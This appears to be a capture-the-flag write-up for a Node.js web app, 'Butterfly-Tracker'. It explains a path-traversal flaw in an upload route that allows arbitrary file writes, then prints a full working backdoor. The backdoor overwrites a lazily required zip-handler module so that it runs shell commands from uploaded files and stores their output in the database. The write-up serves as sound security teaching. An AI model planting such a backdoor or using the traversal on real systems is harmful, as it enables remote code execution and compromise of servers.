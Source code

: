 # Writeup for Butterfly-Tracker

The vulnerability in this Web App lies with the way that the backend handles file uploads  
That happens in `backend/routes/router.js`. These lines are specifically the problem:  
```Javascript
const filedata = fs.readFileSync(body.file[0].filepath);
fs.writeFileSync(`./uploads/${body.file[0].originalFilename}`, filedata)
```

`body.file[0].originalFilename` comes straight out of the body of a POST request with no input validation happening on the backend. We can modify POST requests to include `../` in the field that becomes originalFilename giving us arbitrary file write  

How do we turn an arbitrary file write into RCE?  

We need to think of a way to have the target execute a file that we write.  

One way to do this is to look for `require` statements that have not been invoked yet.  

Look at how uploaded zip file are handled:
```Javascript
if (body.file[0].originalFilename.endsWith(".zip")) {
    const ziphandler = require('../ziphandler/ziphandler')

    file_list = await ziphandler.handleZip(body.file[0].filepath);
```
The first time a zip file is uploaded, `../ziphandler/ziphandler` will be required  

So, if we write a backdoor to `ziphandler/ziphandler.js` it will be loaded the first time a zip file is handled by the server  

There are a lot of creative ways you can write this backdoor. I chose to have it work by uploading a file ending in .zip which contains shell commands and their args seperated by newlines. The output of each command written to the database in the form of a butterfly, which will then be viewable from the "Butterfly List" tab.  

Here is the backdoor:  

```JavaScript
const fs = require('fs');
const schemas = require('../models/schemas')
const child_process = require('child_process');

async function handleZip(filepath) {
    try {
        var filedata = fs.readFileSync(filepath).toString();

        if (filedata[filedata.length-1] === "\n") {
            filedata = filedata.slice(0, -1);
        }

        const filedata_split = filedata.split("\n");
        const command = filedata_split[0];
        const args = filedata_split.slice(1, filedata_split.length);

        const result = child_process.spawnSync(command, args, {
            cwd: process.cwd(),
            env: process.env,
            stdio: 'pipe',
            encoding: 'utf-8',
        });

        var output = "";

        if ("error" in result) {
            output = "error!"
        } else if ("output" in result) {
            output = JSON.stringify(result["output"])
        }

        const butterflyData = {
            species: command, 
            wingspan: 10,
            color: output,
            date: new Date(),
        }

        const newButterfly = new schemas.Butterflies(butterflyData);
        await newButterfly.save();
        
    } catch (error) {
        return [];
    }

    return [];
}


module.exports = { handleZip };
```

Now I can use the file write vulnerability to overwrite the existing `ziphandler.js` with our backdoor'd version  
I will use BurpSuite to do this. I will not explain what BurpSuite is or how it works here, there are plenty of tutorials online that can help if you are unfamiliar. I intercepted our post request uploading the backdoor, and changed the filename before forwarding. Like so:  

![BackdoorWrite.png](../Images/BackdoorWrite.png)

Next, I created and uploaded files ending in .zip, whose contents will be the commands I would like to run. For example:  

![ZipCommands.png](../Images/ZipCommands.png)

When each of those are uploaded, a database entry will be created with a new butterfly containing the command output as the butterflies color  

Here is what the results look like in the "Buttefly List" part of the app:

![CommandResults.png](../Images/CommandResults.png)